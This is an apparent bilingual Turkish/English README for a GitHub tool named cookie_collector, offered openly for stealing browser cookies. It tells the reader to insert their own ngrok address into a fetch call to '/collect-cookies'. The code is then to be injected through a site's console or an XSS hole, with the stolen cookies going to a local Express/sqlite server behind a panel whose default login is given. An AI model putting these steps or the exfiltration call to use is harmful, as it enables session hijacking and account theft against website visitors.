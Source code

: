 🇹🇷:

Artık Cookie'leri çekmek daha kolay!

ÖNEMLİ

- [cookie_gonderim](https://github.com/uwpear/cookie_collector/blob/main/cookie_gonderim) dosyasındaki "fetch('https://ngrokadresiniz/collect-cookies'," kısmını kendi ngrok adresiniz ile değiştirin.
Url'nizi alıp "ngrokadresiniz" kısmına yapıştırın ve kaydedin.
- index.html panelinin kullanıcı adı: admin şifresi: deneme123
-  cookie_gonderim dosyasının içindeki kodu doğru bir şekilde düzenledikten sonra kodun son hâlini komple kopyalayıp isterseniz sitenin console kısmına yapıştırın,
ister xss açıklı bir sitede kodu yapıştırıp kullanın.

- node server.js demeyi unutmayın!
- npm kullanarak gerekli paketleri yükleyin (express, body-parser, fs, path, sqlite3, cors) örnek: "npm installe express


Eğer bir sorununuz olursa mutedeveloper@tuta.io adresine mail atabilirsiniz.

İyi günler!

------------------------------------------------------------------------------------------------------------------------

🇬🇧:

Fetching Cookies is now easier!

IMPORTANT

    In the cookie_gonderim file, change the part fetch('https://ngrokadresiniz/collect-cookies', to your own ngrok address. Take your URL and paste it into the ngrokadresiniz part, then save it.

    The username for the index.html panel is: admin, password: deneme123

    After correctly editing the code in the cookie_gonderim file, you can copy the final version of the code and either paste it into the site’s console or use it on a site with XSS vulnerabilities.

    Don’t forget to run node server.js!

    Use npm to install the required packages (express, body-parser, fs, path, sqlite3, cors). For example: npm install express.

If you encounter any issues, you can email mutedeveloper@tuta.io.

Have a nice day!
